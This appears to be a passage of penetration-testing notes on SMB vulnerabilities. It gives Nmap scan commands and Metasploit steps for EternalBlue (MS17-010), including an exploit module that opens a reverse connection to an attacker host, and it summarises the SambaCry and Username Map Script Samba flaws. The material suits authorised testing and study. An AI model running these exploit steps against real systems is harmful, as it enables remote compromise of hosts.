


Vulnerabilities
Test with Nmap NSE
nmap --script="banner,(nbstat or smb* or ssl*) and not (brute or broadcast or dos or external or fuzzer)" -p 137,139,445 <address>
to test all SMB vulnerabilities(BETTER):
nmap -script=smb-vuln* -p 137,139,445 <address>
•
ETERNALBLUE (MS17-010) (CVE-2017-0143) ◇ Test if
host is vulnerable
msfconsole
use auxiliary/scanner/smb/smb_ms17_010
set rhosts [ip_target]
 ◇ Exploit
use exploit/windows/smb/ms17_010_psexec
set RHOSTS [ip_target]
set LHOST [ip_attacker_interface]
set LPORT [port]
exploit
•
CVE-2017-7494 (referred also as
SambaCry)
Samba since version 3.5.0 and before 4.6.4, 4.5.10 and
4.4.14 is vulnerable to remote code execution vulnerability, allowing a malicious client to upload a shared library
to a writable share, and then cause the server to load and execute it.
•
CVE-2007-2447 (referred as
Username Map Script)
Samba since version 3.0.20 and before
3.0.25rc3 allows remote attackers to execute arbitrary commands via shell metacharacters involving the (1)
SamrChangePassword function, when the "username map script" smb.conf option is enabled, and allows remote
authenticated users to execute commands via shell metacharacters involving other MS-RPC functions in the (2) remote
printer and (3) file share management.
◇
Samba.org explanation of the
vulnerability:
https://www.samba.org/samba/security/CVE-2007-2447.html
◇
Metasploit module:
https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_scrip